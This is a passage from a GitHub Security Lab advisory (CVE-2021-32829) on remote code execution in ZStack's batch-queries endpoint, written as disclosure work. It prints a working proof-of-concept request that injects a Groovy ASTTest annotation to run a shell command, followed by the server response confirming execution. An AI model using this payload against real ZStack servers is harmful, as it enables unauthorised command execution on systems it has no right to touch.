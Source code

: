 <div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET http://192.168.78.132:8080/zstack/v1/batch-queries?script=@groovy.transform.ASTTest(value=%7Bassert%20java.lang.Runtime.getRuntime().exec(%22touch%20/tmp/pwned%22)%7D)%20def%20x
Authorization: OAuth e89f1e6f5b3c4031b44a8392acde19dc
</code></pre></div></div>

<p>Response</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>status code: 503
Set-Cookie: JSESSIONID=7E525CEEDD417C0627F1188E1A739984; Path=/zstack; HttpOnly
Content-Length: 472
Date: Thu, 08 Apr 2021 11:47:59 GMT
Connection: close

{"error":{"code":"SYS.1006","description":"An operation failed","details":"No signature of method: Script1.ssert() is applicable for argument types: (java.lang.UNIXProcess) values: [java.lang.UNIXProcess@4a856d2]\nPossible solutions: every(), grep(), use([Ljava.lang.Object;), every(groovy.lang.Closure), sleep(long), split(groovy.lang.Closure), error at line 0: @groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"touch /tmp/pwned2\")}) def x"}}
</code></pre></div></div>

<p>Even though, we get an Internal Error response (503), the output of the error already hints us that the process was executed (<code class="language-plaintext highlighter-rouge">[java.lang.UNIXProcess@4a856d2]]</code>) and if we check the <code class="language-plaintext highlighter-rouge">/tmp</code> directory, a <code class="language-plaintext highlighter-rouge">pwned</code> file should have been created.</p>

<h2 id="cve">CVE</h2>

<ul>
  <li>CVE-2021-32829</li>
</ul>

<h2 id="resources-1">Resources</h2>
<ul>
  <li><a href="https://github.com/zstackio/zstack/security/advisories/GHSA-6xgq-7rqg-x3q5">https://github.com/zstackio/zstack/security/advisories/GHSA-6xgq-7rqg-x3q5</a></li>
</ul>

<h2 id="credit">Credit</h2>
<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Muñoz)</a>.</p>

<h2 id="contact">Contact</h2>
<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2021-065</code> in any communication regarding this issue.</p>

